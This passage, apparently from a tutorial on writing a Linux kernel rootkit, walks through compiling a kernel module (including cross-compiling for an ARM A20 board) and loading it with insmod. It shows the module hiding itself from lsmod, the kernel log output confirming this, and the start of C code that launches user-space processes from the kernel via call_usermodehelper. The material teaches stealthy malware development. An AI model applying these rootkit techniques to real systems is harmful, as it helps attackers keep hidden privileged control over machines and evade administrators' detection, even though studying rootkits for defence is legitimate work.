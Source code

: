 With make we can simply compile the example for x86 only typing make command

```bash
linux_x86:~$ make
```

If we need cross compile for example for ARM platform, the way to achieve that is to add ARCH and CROSS_COMPILE parameters.

For my A20 board it will look like this:
```bash
linux_x86:~$ make ARCH=arm CROSS_COMPILE=arm-linux-gnueabihf-
```

If the compilation was successful, we will get a rootkitmod.ko file (the *.ko files are dedicated executable code for kernel)
Let's inject this module and see what will happen. I will run my example on an embedded board with linux ARM, but this can be also run on a x86 platform.

```bash
root@a20-olimex:~$ insmod rootkitmod.ko
```

Then let's see if it exist in modules list that we get from lsmod

``` bash
root@a20-olimex:~$ lsmod | grep rootkitmod
root@a20-olimex:~$

```

Nice! lsmod didn't show it so we hid our module. To make sure that rootkit is already in the kernel space, let's check kernel logs:

```bash
root@a20-olimex:~$ dmesg
...
[24212.376904] sunxi_emac sunxi_emac.0: eth0: link up, 100Mbps, full-duplex, lpa 0xCDE1
[90378.868644] rootkit_mod loading.
[90378.874580] rootkit_mod hidind itself.
[90379.891221] rootkit_mod done.
```

Great, our rootkit module is in the kernel space and can't be easily found using lsmod. What can we make in kernel space? The answer is exactly everything we want, but we have to know precisely what and how to achieve our goals (also which structures and functions to use) because kernel is really specific place where software meets hardware and each mistake can crash whole system. So as our next step let's say that we want rootkit to wait specific amount of time after loading, and because we already know linux user space better than kernel, we need to run user space process to operate with linux file system.

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/rculist.h>
#include <linux/sysfs.h>
#include <linux/delay.h>

/*
  Simple user space runner
*/
static int simple_usp_runner(void)
{
  char *argv[] = { "/usr/bin/logger", "root!", NULL };
  static char *envp[] = {
        "HOME=/",
        "TERM=linux",
        "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };

  return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
}
```